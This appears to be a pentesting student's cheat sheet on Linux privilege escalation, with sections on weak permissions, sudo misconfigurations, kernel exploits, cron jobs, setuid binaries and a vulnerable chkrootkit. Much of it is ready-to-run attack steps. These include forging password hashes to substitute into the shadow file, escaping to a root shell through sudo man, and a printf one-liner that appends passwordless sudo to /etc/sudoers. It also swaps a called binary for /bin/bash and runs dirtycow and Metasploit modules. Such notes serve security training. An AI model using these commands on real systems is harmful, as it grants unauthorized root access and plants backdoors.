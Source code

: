 # Weak Permissions

- find / -not -type l -perm -o+w (writable files for every user on the system)
- use openssl to generate encrypted linux passwords (can be substituted in shadow file)
	- openssl passwd -<1/2/3/4/5/6> -salt abc <cleartext password>
	- -1 means weakest algorithm, -6 means strongest

# Sudo Misconfig

- sudo -l : programs that current user can run as root
- eg. man > sudo man cat > type !/bin/bash > opens shell as root

  ![privesc](./images/linprivesc-01.png)
  ![privesc](./images/linprivesc-02.png)
  ￼
- if LD_PRELOAD env in "sudo -l" output, 

  ![privesc](./images/linprivesc-03.png)
  ![privesc](./images/linprivesc-04.png)
  ![privesc](./images/linprivesc-05.png)
  ![privesc](./images/linprivesc-06.png)
      ￼

# Kernel Exploit

- https://github.com/mzet-/linux-exploit-suggester
- upload les.sh to target using meterpreter and run the file
- eg. dirtycow exploit creates a new user with escalated perms with a password

# Cron jobs

- look for a script file (.sh) which normal user van edit and can run as root.
- printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
- this will create a script which will allow student user to run sudo without password

# Exploiting setuid programs

- setuid bit looks like:

  ![privesc](./images/linprivesc-07.png)
  
- find files:  find / -user root -perm -4000 -exec ls -ldb {} \;
- another way to find file: find / -perm -u=s -type f 2>/dev/null
- this means this binary along with all child processes run with root privs
- investigate binary with - strings ./welcome
- since this binary is calling greetings binary, we delete the ./greetings binary
- and replace with /bin/bash binary
- this will run /bin/bash as root
- run the welcome binary, it should give root shell

# Rootkit scanner

- check for any scripts running that are running chkrootkit as root in "ps aux"
- chkrootkit v0.49 is vulnerable to privesc - exploit/unix/local/chkrootkit
- set CHKROOTKIT /bin/chkrootkit 

  ![privesc](./images/linprivesc-08.png)
  ![privesc](./images/linprivesc-09.png)
